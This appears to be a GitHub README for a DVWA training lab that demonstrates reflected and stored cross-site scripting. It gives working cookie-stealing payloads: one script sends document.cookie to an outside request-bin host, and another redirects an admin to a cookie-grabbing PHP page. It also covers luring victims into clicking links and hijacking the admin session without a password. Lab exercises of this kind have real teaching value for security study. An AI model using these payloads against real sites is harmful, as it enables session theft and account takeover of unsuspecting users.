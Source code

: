 # Cross-site-Scripting_XSS
##1. Installation
- Move the directory "dvwa" and "mywebsite" to the xampp installation directory
For example:
E: \ xampp \ htdocs \ dvwa
E: \ xampp \ htdocs \ mywebsite

- Upload the file "dvwa.sql" to: http://localhost/phpmyadmin/

##2. Deploy and attack
###- Access url: http://localhost/dvwa/

###- XSS - Reflected
####+ Identify website with XSS reflected error?
####+ After determining that there are errors XSS Reflected. Send the link to the user. (The ability to seduce the victim depends on each person, assuming we can seduce the victim to click on the link)
####+ Insert the script: <script> document.write ('<IMG SRC = \ "https: //en3xwxviv17aq.x.pipedream.net? Cookie =' + document.cookie + '\"> Hello </IMG>'); </script>
####+ View the cookie you just got and exploit that cookie
(Go to https://requestbin.com to exploit the cookies you just grabbed)

###- XSS - Stored
####+ Create 2 files: get.php (get cookie) and cookie.txt (empty to save her
####+ Upload to site message will save to guestbook in database (dvwa.sql)
####+ Login as customer to insert code to get admin cookie: <script> window.location = "http: //localhost/mywebsite/get.php? cookie =" + document.cookie; </script>

####+ the link to the get.php file contains the code to get the cookie you just created
####+ Now switch to the admin account
####+ When the admin accesses, the admin will successfully self-direct and get the admin cookie
####+ Use add-on on your browser to access when you know the admin cookie
####+ Login as admin successfully (No need to know password)

#Note: To use cookie exploited from the victim, each browser must install the cookie tool (add-on) depending on the extendtions of each browser.

